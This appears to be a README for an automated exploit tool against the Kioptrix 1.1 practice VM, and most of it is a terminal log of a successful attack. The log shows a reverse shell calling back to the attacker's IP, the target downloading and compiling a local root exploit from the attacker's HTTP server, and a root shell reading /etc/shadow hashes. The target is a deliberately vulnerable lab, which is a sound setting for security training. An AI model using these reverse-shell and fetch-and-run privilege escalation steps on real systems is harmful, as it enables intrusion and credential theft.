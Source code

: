 ## Kioptrix 1.1 Automagic Exploitation Tool.
Just supply your target IP and your callback IP. The automation will handle the rest. It even downloads/executes the local root exploit for you and just pops you open a shell.

You will need `pwntools` and `requests`.

```
(venv) sky@kitten:~/projects/kioptrix/1.1$ python kioptrix1.1.py 192.168.0.103 192.168.0.101
kioptrix level 1.1 automatic exploitation utility.
[+] Trying to bind to 0.0.0.0 on port 0: Done
[+] Waiting for connections on 0.0.0.0:36431: Got connection from 192.168.0.103 on port 32784
[*] Switching to interactive mode
Started httpserver on port  bash: no job control in this shell
bash-3.00$ 8976
--12:58:44--  http://192.168.0.101:8976/1.1.c
           => `/tmp/rootme.c'
Connecting to 192.168.0.101:8976... {+} Got call from 192.168.0.103 - dropping local root ;)connected.
HTTP request sent, awaiting response... 
192.168.0.103 - - [11/Sep/2017 13:58:45] "GET /1.1.c HTTP/1.0" 200 -
200 OK
Length: unspecified [text/plain]

    0K ...                                                     223.58 MB/s

12:58:44 (223.58 MB/s) - `/tmp/rootme.c' saved [3751]

bash-3.00$ sh: no job control in this shell
sh-3.00# $ id;uname -a;pwd
uid=0(root) gid=0(root) groups=48(apache)
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
/var/www/html
sh-3.00# $ head -n 3 /etc/shadow
root:$1$FTpMLT88$VdzDQTTcksukSKMLRSVlc.:14529:0:99999:7:::
bin:*:14525:0:99999:7:::
daemon:*:14525:0:99999:7:::
sh-3.00# $ 
```
